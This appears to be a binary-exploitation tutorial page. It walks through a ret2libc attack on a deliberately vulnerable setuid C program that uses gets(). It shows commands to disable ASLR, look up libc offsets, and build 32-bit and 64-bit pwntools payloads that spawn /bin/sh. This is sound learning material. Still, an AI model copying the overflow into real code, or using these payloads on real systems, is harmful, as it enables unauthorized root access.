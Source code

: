 ```c
#include <stdio.h>

int secret_function() {
    asm("jmp %esp");
}

void receive_feedback()
{
    char buffer[64];

    puts("Please leave your comments for the server admin but DON'T try to steal our flag.txt:\n");
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    receive_feedback();

    return 0;
}
```

```txt
flag{w0w_1_7h0u9h7_7h15_w45_53cu23_n0w}
```

```bash
gcc prog.c -o prog -fno-stack-protector -no-pie -m32
```

This program was compiled without the `-z execstack` flag. This means `NX` was enabled, so we can't do the same thing we did in [[Shellcode injection]], since stack data won't be executable.

We don't have any useful function to return to, we can't execute shellcode on the stack anymore. What do we do?

The program was dynamically linked, meaning it looks for system functions like `gets` or `puts` from the system through a GOT (Global Offset Table) table. Some binary has ASLR enabled, which will randomize the address, the linker will go in and fill in the GOT table with the addresses of the system functions so that the binary won't have to figure out where the system function is in the system.

That means we could potentially call the system functions that are in `libc` like `system` and start executing code there. For our case, the padding bytes for the input will be 76 padding bytes. Then we want to write the address of the `system` function along with the parameter `/bin/sh`, which will allow us to spawn a shell.

We'll first need the address of the `libc` library for our program, which we can get using this command:

```bash
ldd prog
```

One thing to note is that normally, every time we run this, the address of the `libc` is different. This is because of ASLR. For this example, the ASLR has been turned off via this command:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

We can read out the address of a function in the `libc` library using `readelf`. The below command will grep the information of the `system` function, which includes the offset of the function from the base of `libc`:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

We can also grab the offset to the string `/bin/sh` from the `libc` library using the `strings` command:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
```

Now, we can calculate the exact address of these functions:

```python
# libc offsets, found manually (ASLR OFF)
libc_base = 0xf7dba000
system = libc_base + 0x45040
binsh = libc_base + 0x18c338
```

Now we can build our payload:

```python
payload = flat(
    asm('nop') * padding,  # Padding bytes
    system,  # Address of system function in libc
    0x0,  # Return address (cuz the function call needs it)
    binsh  # Address of /bin/sh in libc
)
```

We can do the same to the 64-bit version:

```c
#include <stdio.h>

void receive_feedback()
{
    char buffer[64];

    puts("Please leave your comments for the server admin but DON'T try to steal our flag.txt:\n");
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    receive_feedback();

    return 0;
}
```

We just need to put our `/bin/sh` into the `rdi` register with the `pop rdi` gadget.

```python
# libc offsets, found manually (ASLR OFF)
libc_base = 0x7ffff7dde000
system = libc_base + 0x48e50
binsh = libc_base + 0x18a152

# POP RDI gadget (found with ropper)
pop_rdi = 0x40120b

padding = 72

payload = flat(
    asm('nop') * padding,  # Padding bytes
    pop_rdi,  # Pop the following address into the RDI register
    binsh,  # Address of /bin/sh in libc
    system,  # Address of system function in libc
)
```